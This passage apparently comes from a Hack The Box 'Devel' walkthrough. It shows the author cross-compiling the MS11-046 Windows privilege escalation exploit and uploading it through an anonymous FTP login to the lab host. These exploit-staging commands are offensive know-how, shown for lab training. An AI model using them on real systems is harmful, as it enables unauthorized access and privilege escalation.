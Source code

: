 <br />
Cross-compile the exploit for the Windows machine.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/devel]
└─$ i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/htb/devel]
└─$ ls
MS11-046.c  MS11-046.exe
```
{% endraw %}

<br />
Log into the FTP server and change into binary mode.

{% raw %}
```sh
└──╼ [★]$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
```
{% endraw %}

<br />
Microsoft recommends binary mode for sending executables.

<div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/devel/msftp.png" title="Microsoft FTP" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
<a href="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/ftp-binary">Bulletin</a>

<br />
Put the MS11-046.exe binary executable onto the victim server.

{% raw %}
```sh
ftp> put MS11-046.exe
local: MS11-046.exe remote: MS11-046.exe
229 Entering Extended Passive Mode (|||49159|)
125 Data connection already open; Transfer starting.
100% |*************************************************************************************************************************************************|   234 KiB  340.43 KiB/s    00:00 ETA
226 Transfer complete.
240005 bytes sent in 00:00 (297.90 KiB/s)
```
{% endraw %}
